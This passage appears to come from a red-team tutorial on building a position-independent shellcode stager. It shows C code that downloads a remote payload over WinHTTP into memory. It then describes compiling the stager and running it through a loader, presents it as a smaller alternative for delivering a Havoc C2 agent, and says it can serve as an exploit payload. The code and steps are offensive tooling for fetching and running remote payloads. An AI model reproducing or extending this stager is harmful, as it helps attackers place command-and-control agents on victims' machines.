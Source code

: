 ```c
    if (!pTempBuffer) {
        goto END;
    }

    do {
        bResults = pInstance.Api.pWinHttpReadData(hRequest, (LPVOID)(pTempBuffer + dwDownloaded), dwContentLength - dwDownloaded, &dwSize);
        if (bResults) {
            dwDownloaded += dwSize;
        } else {
            pInstance.Api.pRtlFreeHeap(Heap, 0, pTempBuffer);
            pTempBuffer = NULL; 
            goto END;
        }
    } while (dwSize > 0 && dwDownloaded < dwContentLength);

    *ByteCodes = pTempBuffer;
    *ByteSize = dwContentLength;

END:
    if (hRequest) pInstance.Api.pWinHttpCloseHandle(hRequest);
    if (hConnect) pInstance.Api.pWinHttpCloseHandle(hConnect);
    if (hSession) pInstance.Api.pWinHttpCloseHandle(hSession);
}
```

# POC

One advantage of using a code like this, regardless of position-independent code (PIC), is that, for example, Havoc doesn't have a Stager. Therefore, the generated shellcode contains the entire agent, without optimizations. If we need a slightly smaller shellcode, we would be left empty-handed. However, we can develop it as I demonstrated. Additionally, it can be used as an exploit payload and for various other purposes.

Here's a demonstration of its use. First, let's navigate to the root folder and run the make command, which will use the Makefile for compilation automation, shellcode (text) extraction with the Python script extract.py, and preparation for our use.

![img](../commons/shellcode_pt4/img1.png)

Now we will use the Ldr that was explained in the parent chapter; its just a loader for the shellcode. We could use VBA, JS, or any other method, but since that wasn't the focus, I decided to simplify. 
